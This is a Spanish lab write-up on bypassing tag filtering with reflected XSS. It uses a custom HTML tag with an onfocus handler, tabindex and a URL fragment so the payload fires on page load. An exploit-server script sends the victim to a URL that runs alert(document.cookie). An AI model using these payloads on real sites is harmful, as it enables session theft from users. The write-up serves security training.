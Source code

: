 Utilizamos un servidor de explotación para construir un vector que incluye una etiqueta inventada, con un identificador específico y un evento que se activa al enfocar ese elemento. Al añadir un fragmento al final de la URL que apunta a esa etiqueta personalizada, el navegador intenta enfocarla automáticamente al cargar la página, lo que desencadena la ejecución del código malicioso sin necesidad de interacción del usuario.

Este laboratorio demuestra cómo incluso etiquetas no estándar pueden ser vehículos válidos para ataques XSS si los atributos y eventos no son controlados adecuadamente, reforzando la importancia de validar todo el contenido, no solo el nombre de la etiqueta.

----

Para este caso, debemos de saber que etiqueta es valida, pero no llegamos a nada, por lo que debemos de diseñar nuestra propia etiqueta:

```html
<etiqueta>Markos</etiqueta>
```

Pero debemos de hacer algo más, por ejemplo, darle un atributo a la etiqueta:

```html
Para cuando seleccione el valor "Markos" se active el alert
<etiqueta onfocus=alert(1)>Markos</etiqueta>
```

Pero no funciona, pero podemos buscar el por qué no funciona, y es porque debemos de meter algun contenido adicional, como "tabindex"

onfocus tag no executing javascript

Por lo que puede quedar de la siguiente forma:

```html
<etiqueta onfocus=alert(1) tabindex=1>Markos</etiqueta>
```

Y al seleccionar la cadena de "Markos" da el XSS o cuando damos tabs varias veces hasta llegar a ese elemento

Ahora, para mandarle ese script a la victima, podemos hacer lo siguiente desde el server:

```javascript
<script>
    location = 'https://burpsuite?search=<etiqueta id=identificador onfocus=alert(1) tabindex=1></etiqueta>#identificador'
    location = 'https://burpsuite?search=<etiqueta id=identificador onfocus=alert(document.cookie) tabindex=1></etiqueta>#identificador'
</script>
```


Cambiamos un poco el script anterior:

id = identificador
    Nos va a permitir ponerle un identificador a la etiqueta personalizable

\#identificador
    En este caso, quitamos markos y pusimos lo anterior, para hacer referencia que nos mande a esa sección del codigo, como en el caso del auto-scroll desde la URL agregando el "#"



